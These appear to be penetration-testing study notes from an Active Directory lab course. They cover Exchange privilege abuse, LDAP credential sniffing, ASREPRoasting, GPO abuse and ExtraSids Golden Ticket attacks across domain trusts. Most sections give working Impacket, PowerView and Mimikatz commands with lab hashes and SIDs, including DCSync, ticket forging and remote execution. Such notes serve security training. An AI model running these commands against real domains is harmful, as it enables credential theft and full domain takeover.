A default installation of Microsoft Exchange within an AD environment (with no split-administration model) opens up many attack vectors, as Exchange is often granted considerable privileges within the domain.  

The group `Exchange Windows Permissions` is not listed as a protected group, but members are granted the ability to write a DACL to the domain object. This can be leveraged to give a user DCSync privileges  

This github repo details a few techniques for leveraging Exchange for escalating privileges in an AD environment:  
- https://github.com/gdedrouas/Exchange-AD-Privesc

If we can comprimise an Exchange server, this will often lead to Domain Admin privileges. Additionally, dumping credentials in memory from an Exchange server will produce 10s if not 100s of cleartext credentials or NTLM hashes. This is often due to users logging in to Outlook Web Access (OWA) and Exchange caching their credentials in memory after a successful login  

<br />

## Sniffing LDAP Credentials

Many applications and printers store LDAP credentials in their web admin console to connect to the domain. These consoles are often left with weak or default passwords. Sometimes, these credentials can be viewed in cleartext. Other times, the application has a test connection function that we can use to gather credentials by changing the LDAP IP address to that of our attack host and setting up a netcat listener on LDAP port 389. When the device attempts to test the LDAP connection, it will send the credentials to our machine, often in cleartext.  

<br />

## ASREPRoasting

It is possible to obtain the Ticket Granting Ticket for any account that has the `Do not require Kerberos pre-authentication` setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (AS_REP) is encrypted with the account's password, and any domain user can request it.  

With pre-authentication, a user enters their password, which encrypts a time stamp. The Domain Controller will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller.  

ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. This setting can be enumerated with PowerView or built-in tools such as the PowerShell AD module.  

When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users founds that do not require pre-authentication  

With a list of valid users, we can use Get-NPUsers.py from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required:  
```sh
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users -outputfile asrep_hashes
```

We can also use PowerView to enumerate users with their UAC value set to `DONT_REQ_PREAUTH`:  
```Powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

The hashcat mode for ASREP is `18200`  

<br />

## Group Policy Object (GPO) Abuse

A Group Policy Object (GPO) is a virtual collection of policy settings. A GPO has a unique name, such as a GUID.  

You can enumerate GPO information with several tools, including BloodHound and the Get-DomainGPO function from PowerView  

Enumerating Domain User GPO Rights with Get-DomainGPO:
```Powershell
$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

Converting GPO GUID to Name:
```Powershell
Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```

If we select a GPO in BloodHound and scroll down to the Affected Objects on the Node Info tab, we can see that this GPO is applied to one OU, which contains four computer objects  

We could use a tool such as SharpGPOAbuse to take advantage of this GPO misconfiguration by performing actions such as adding a user that we control to the local admins group on one of the affected hosts, creating an immediate scheduled task on one of the hosts to give us a reverse shell, or configure a malicious computer startup script to provide us with a reverse shell or similar.  

<br />

## Domain Trusts Overview

A `trust` is used to establish forest-forest or domain-domain authentication, which allows users to access resources (or perform administrative tasks) in another domain, outside of the main domain where their account resides  

A "transitive" trust means that trust is extended to objects that the child domain trusts. In a non-transitive trust, the child domain itself is the only one trusted  

<br />

## Enumerating Trust 

```PowerShell
Get-ADTrust -Filter *

# Powerview:
Get-DomainTrust
Get-DomainTrustMapping
```

You can also use BloodHound to visualize trust relationships  

<br />

## Attacking Domain Trusts - Child > Parent 

The `sidHistory` attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources form the original domain  

Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID history attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token  

This token is used to determine which resources the account can access. If the SID of a Domain Admin account is added ot the SID history attribute of this account, then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos ticket-granting ticket (TGT).  

### ExtraSids Attack - Mimikatz

This attack allows for the comprimise of a parent domain once the child domain has been compromised.  

To perform this attack after compromising a child domain, we need the following:  
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Step one is to obtain the NT hash for the KRBTGT account, which is a service account for the KDC in Active Directory. The KRBTGT is used to encrypt/sign all Kerberos tickets granted within a given domain. The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well known persistence mechanism for attackers in Active Directory environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account.  

Obtaining the KRBTGT Account's NT Hash using Mimikatz:
```Powershell
# Get Domain SID with PowerView: (.240 is the ip of the child DC)
Get-DomainSID -Credential $Cred -Server 172.16.5.240

# Get SID for "Enterprise Admins" group (.5 is the ip of the parent DC)
Get-DomainGroup -Credential $Cred -Server 172.16.5.5 -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Have only gotten this to work from the domain-joined computer running mimikatz:
mimikatz> lsadump::dcsync /user:LOGISTICS\krbtgt
# Hash NTLM: 9d765b482771505cbe97411065964d5f
```

Creating Golden Ticket with Mimikatz:
```Powershell
# ..89 is the domain sid, ..114-519 is the group sid
mimikatz> kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# verify its in memory:
klist
```

### ExtraSids Attack - From Linux

Getting the KRBTGT Account's NT Hash:
```sh
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

I would just use PowerView on a Windows box to get the SIDs  

Constructing a Golden Ticket using ticketer.py:
```sh
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

This ticket gets saved as a `.ccache` file  
We can set the `KRB5CCNAME` environment variable to tell the system to use this file for Kerberos authentication attempts:  
```sh
export KRB5CCNAME=hacker.ccache 
```

Now we can use something like `psexec.py` with the `-k` flag:
```sh
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

# If you are not doing DNS with the domain, you may need to add all of the following to /etc/hosts:
# 172.16.5.5 academy-ea-dc01.inlanefreight.local
# 172.16.5.240 LOGISTICS.INLANEFREIGHT.LOCAL
# 172.16.5.5 INLANEFREIGHT.LOCAL
```

Similarly, we could also use secretsdump.py again to get some user's NTLM hash:
```sh
secretsdump.py logistics.inlanefreight.local/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-user INLANEFREIGHT/bross
```

<br />

## Attacking Domain Trusts - Cross-Forest Trust Abuse

### Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.  

Using PowerView to enumerate accounts with SPNs in a target domain:
```Powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL -Server 172.16.5.238 -Credential $cred | select SamAccountName
```

We can use the -target-domain flag with `GetUserSPN.py` to do a cross-forest kerberoast:  
```sh
# The IP address of the FREIGHTLOGISTICS.LOCAL DC is 172.16.5.238
# Need to add 172.16.5.238 FREIGHTLOGISTICS.LOCAL to /etc/hosts
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.local/wley -request-user mssqlsvc -outputfile mssqlsvc_tgs_hash
```

### Foreign Group Membership

It is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bi-directional forest trust relationship.  

You can use BloodHound on both Domains to enumerate these types of things. This will require adding the FQDN and IP to /etc/hosts. A better way to do this is actually to add the domain to /etc/resolv.conf like so:
```
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
